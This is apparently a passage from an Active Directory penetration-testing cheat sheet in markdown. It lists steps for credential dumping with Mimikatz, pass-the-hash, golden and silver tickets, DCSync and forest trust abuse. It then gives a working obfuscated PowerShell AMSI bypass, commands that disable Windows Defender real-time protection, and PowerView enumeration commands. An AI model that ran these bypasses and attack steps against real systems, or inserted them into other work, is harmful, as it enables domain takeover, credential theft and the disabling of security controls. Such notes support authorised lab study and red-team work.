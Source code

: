 ## 5. Domain Admin Persistence
> 1. [ ] Dump the hashes us the user using *Invoke-Mimikatz*
> 2. [ ] Get the ekeys
> 3. [ ] Get Credentials from the credentials vault
> 4. [ ] Using *Over-Pass-the-Hash Attack* spawn a PowerShell session as that user

## 6. New user from DA Priv Esc
> 1. [ ] Follow the same exact steps from **3. to 5.** if a new user is found

## 7. DC pwn
> 1. [ ] After we get a DA user with Administrator access we can connect to the DC using **Enter-PSSession**

## 8. Domain Controller Persistence
> 1. [ ] Golden Ticket
> 2. [ ] Silver Ticket
> 3. [ ] DSRM
> 4. [ ] ACL AdminSDHolder
> 5. [ ] ACL DCSync
> 6. [ ] ACL security Descriptors

## 9. Forest Priv Esc

> 1. [ ] Forge inter-forest ticket by trust keys

---

# Command master

## 1. Bypass defender
```powershell
# AMSI
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

# Bypass real time monitoring ( admin privs )
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
```

## 2. Domain Enumeration
```powershell
# Users
Get-NetUser

# computers
Get-NetComputer

# domain admin
Get-NetDomain

# See Attributes of the Domain Admins Group
Get-NetGroup -GroupName "Domain Admins" -FullData

# Get Members of the Domain Admins group
Get-NetGroupMember -GroupName "Domain Admins"
```